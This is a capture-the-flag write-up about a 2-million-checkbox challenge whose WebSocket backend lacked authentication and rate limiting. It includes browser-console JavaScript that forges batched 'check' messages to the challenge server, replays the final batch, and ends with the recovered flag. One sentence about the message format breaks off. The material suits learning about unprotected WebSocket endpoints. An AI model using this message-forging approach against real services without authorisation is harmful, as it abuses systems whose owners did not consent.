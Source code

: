 
## Challenge
This challenge provided a frontend with 2,000,000 checkboxes and a WebSocket backend that tracks checked states server-side. The goal was to tick all 2 million checkboxes to reveal the flag.

The challenge relied on client-side checkbox interactions, but used WebSocket messages to actually track progress on the server.

This means: you didn’t have to click UI checkboxes, you only needed to send the right messages. The WebSocket accepted raw JSON messages with 

There was no authentication, rate-limiting, or replay protection and anyone could: **Connect directly, Forge messages or even Automate the interaction**

## Solution

We scripted a solution in the browser’s console that:
- Sent batches of 20,000 checkbox indices
- Used localStorage to track progress
- Automatically resumed if interrupted
- After sending all 2 million, the server would respond with the flag or set it in window.SERVER_FLAG

```js
let ws;
let index = parseInt(localStorage.getItem("progress") || "0", 10);
const total = 2_000_000;
const batchSize = 20000;
const delay = 250;
let reconnectAttempts = 0;

function connectWebSocket() {
  ws = new WebSocket("ws://" + window.location.host + "/ws");

  ws.onopen = () => {
    console.log(`✅ Connected. Resuming at index ${index}`);
    reconnectAttempts = 0;
    sendNextBatch();
  };

  ws.onmessage = (event) => {
    try {
      const data = JSON.parse(event.data);
      if (data.flag) {
        console.log("🎉 FLAG:", data.flag);
        alert("🎉 FLAG: " + data.flag);
      } else {
        console.log("📩 Server response:", data);
      }
    } catch (e) {
      console.warn("⚠️ Non-JSON message:", event.data);
    }
  };

  ws.onclose = () => {
    console.warn("❌ WebSocket closed. Reconnecting...");
    reconnectAttempts++;
    const backoff = Math.min(2000 * reconnectAttempts, 10000);
    setTimeout(connectWebSocket, backoff);
  };

  ws.onerror = (err) => {
    console.error("🚨 WebSocket error:", err);
    ws.close();
  };
}

function sendNextBatch() {
  if (ws.readyState !== WebSocket.OPEN) {
    console.warn("⚠️ WebSocket not open. Skipping batch.");
    return;
  }

  if (index >= total) {
    console.log("✅ All 2 million checkboxes sent!");
    return;
  }

  const numbers = [];
  for (let i = index; i < Math.min(index + batchSize, total); i++) {
    numbers.push(i);
  }

  ws.send(JSON.stringify({ action: "check", numbers }));
  localStorage.setItem("progress", index);

  if (index % 100000 === 0) {
    console.log(`📦 Progress: ${index.toLocaleString()} / ${total.toLocaleString()}`);
  }

  console.log(`✅ Sent ${numbers.length} checkboxes: ${index} to ${index + numbers.length - 1}`);
  index += batchSize;

  setTimeout(sendNextBatch, delay);
}

connectWebSocket();
```
Due to network or timing issues, some final batches didn’t register. We resolved this by replaying the final 100,000 checkboxes and manually triggering a state check.

```js
const ws2 = new WebSocket("ws://" + window.location.host + "/ws");

ws2.onopen = () => {
  const numbers = [];
  for (let i = 1980000; i < 2000000; i++) {
    numbers.push(i);
  }

  ws2.send(JSON.stringify({
    action: "check",
    numbers
  }));

  console.log("✅ Final batch sent: 1,980,000 to 1,999,999");

  setTimeout(() => {
    ws2.send(JSON.stringify({ action: "get_state" }));
  }, 500);
};

ws2.onmessage = (event) => {
  try {
    const data = JSON.parse(event.data);
    console.log("📩 Server says:", data);
    if (data.flag) {
      alert("🎉 FLAG: " + data.flag);
    }
  } catch (e) {
    console.warn("⚠️ Could not parse message:", event.data);
  }
};
```

## Flag
Once the server verified all checkboxes were checked, it revealed the flag through the WebSocket or the DOM.

```
flag{7d798903eb2a1823803a243dde6e9d5b}
```
